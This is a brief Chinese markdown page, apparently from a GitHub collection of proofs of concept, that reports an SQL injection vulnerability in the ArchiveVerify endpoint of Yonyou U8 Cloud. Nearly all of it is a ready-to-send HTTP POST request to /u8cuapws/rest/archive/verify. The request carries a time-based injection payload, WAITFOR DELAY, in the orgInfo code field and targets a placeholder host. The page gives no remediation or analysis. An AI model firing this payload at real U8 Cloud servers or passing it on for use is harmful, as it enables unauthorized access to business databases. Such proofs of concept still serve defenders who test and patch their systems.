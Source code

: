 ## 用友U8 Cloud-ArchiveVerify存在SQL注入漏洞


## poc
```
POST /u8cuapws/rest/archive/verify HTTP/1.1
Host: your-ip
User-Agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded
 
{"orgInfo":{"code":"1';WAITFOR DELAY '0:0:5'--"}}
```

